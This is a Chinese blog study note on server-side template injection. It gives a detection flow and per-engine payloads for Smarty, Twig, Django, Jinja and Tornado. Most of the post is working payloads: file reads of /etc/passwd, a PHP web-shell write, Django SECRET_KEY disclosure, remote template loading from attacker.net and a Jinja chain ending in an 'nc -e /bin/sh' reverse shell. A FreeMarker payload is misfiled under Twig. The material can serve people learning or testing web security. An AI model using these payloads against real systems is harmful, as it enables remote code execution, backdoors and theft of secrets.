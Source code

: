 ```yaml
---
title: SSTI模板注入
comments: false
hide: false
date: 2020-12-13 14:58:27
urlname: ssti
updated: 2020-12-15 11:58:27
permalink:
tags:
categories: 
  - 杂谈笔记
  - 学习笔记
---
```




SSTI模板注入

<!-- more -->

# SSTI漏洞

## 什么是模板注入

 SSTI （服务器端模板注入）也是格式化字符串的一个非常好的例子，凡是使用模板的地方都可能会出现 SSTI 的问题，SSTI 不属于任何一种语言，沙盒绕过也不是。这种模板不仅存于Python中，PHP中也有不少模板引擎。



## 检测流程

![SSTI流程](SSTI/SSTI流程.png)

首先输入`{{7*7}}`，返回值为`49`则表明存在SSTI

输入`{{system('cat /etc/passwd')}}`如果返回值则表明为**Smarty模板引擎**

输入`{{7*'7'}}`如果返回值是`49`则为**Twig模板引擎**

如果返回值是`7777777`则为**JinJa模板引擎**



---

## 姿势总结

### Smarty

payload：

```
{self::getStreamVariable("file:///etc/passwd")}

{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
```



### Twig

payload:

```
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}

{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /etc/passwd")}}

<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cat /etc/passwd") }
```



### Django

payload:

```
{user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}
{user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}
```



### Jinja

payload:

```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evil', 'w').write('from os import system%0aSHELL = system') }}
//写文件
{{ config.from_pyfile('/tmp/evil') }}
//加载system
{{ config['SHELL']('nc xxxx xx -e /bin/sh') }}
//执行命令反弹SHELL
```



### Tornado

payload:

```
http://ip:port/error?msg={{handler.settings}}
```



 